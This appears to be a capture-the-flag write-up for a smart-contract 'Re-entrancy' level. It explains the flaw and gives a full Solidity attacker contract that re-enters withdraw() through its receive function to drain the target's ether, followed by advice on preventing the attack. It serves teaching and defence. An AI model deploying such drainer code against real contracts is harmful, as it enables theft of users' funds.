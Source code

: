# Re-entrancy

## Challenge Statement

The goal of this level is for you to steal all the funds from the contract.

## Analysis

As the name suggests, the contract is vulnerable to a re-entrancy attack. Best explained here: https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html.

re-entrancy: When calling an external address of a contract, e.g transferring ether, control flow is transferred to the receiving contract - an external entity. The external entity can then re-call the initial function in the initial contract, re-entering it and setting up a loop which can keep re-entering.

Here, Line 21 is succeptible: ```(bool result,) = msg.sender.call{value:_amount}("");```. Only after this call does the balance get reduced, and so we can ensure our malicious receiving contract recalls the original contract function and gets sent the same amount without our balance variable reducing, until the contract runs out of ether.



## Solution

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReEnter {

    Reentrance targetContract = Reentrance(0x4F9D07BB32a9e080c9fb700ce293d0fFB6DF593B);
    address payable target = 0x4F9D07BB32a9e080c9fb700ce293d0fFB6DF593B;
    uint256 public targetValue = 1000000000000000; // value of target contract at the start

    function donateWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate{value:msg.value}(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawToWallet() public returns (bool) {
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call{value:totalBalance}("");
        require(sent, "failed to send eth");
        return sent;
    }

    receive() external payable { 
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue); // re-entrance
        }
    }
    
}
```


## Moral

In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 
The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See 15 lines of code that could have prevented TheDAO Hack.